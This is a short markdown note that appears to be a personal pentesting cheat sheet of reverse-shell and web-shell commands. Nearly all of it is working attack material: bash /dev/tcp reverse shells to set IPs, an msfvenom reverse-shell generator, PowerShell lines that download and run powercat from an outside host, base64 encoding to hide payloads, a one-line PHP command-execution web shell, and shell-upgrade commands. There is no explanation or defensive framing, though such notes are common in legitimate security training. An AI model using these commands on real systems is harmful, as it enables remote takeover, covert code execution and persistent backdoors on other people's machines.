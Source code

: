 ```yaml
---
sticker: emoji//1f41a
---
```

### Reverse Shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
##### Bash
```
bash -c "bash -i >& /dev/tcp/192.168.45.161/1443 0>&1"

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/bash -l > /dev/tcp/192.168.45.161/1443 0<&1 2>&1
```

##### Windows
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o <filename.exe>

#Using powercat and powershell.
Method 1. IEX (New-Object System.Net.Webclient).DownloadString("http://<ip>/powercat.ps1");powercat -c <host_ip> -p <port> -e powershell
Method 2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"

```

###### Base64 Encode

```
#PowerShell Script
$Text = "YOUR_PAYLOAD_HERE"

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

#PowerShell Command
powershell -enc "<base64>"
powershell -a "-enc <base64>"
```

### Web Shells
##### ASP / ASPX

```
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp
```
### PHP

```
<?php system($_GET['cmd']); ?>
```

#### Upgrades
```
#interactive upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

#interactive upgrade
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'

#enables clear
export TERM=xterm
```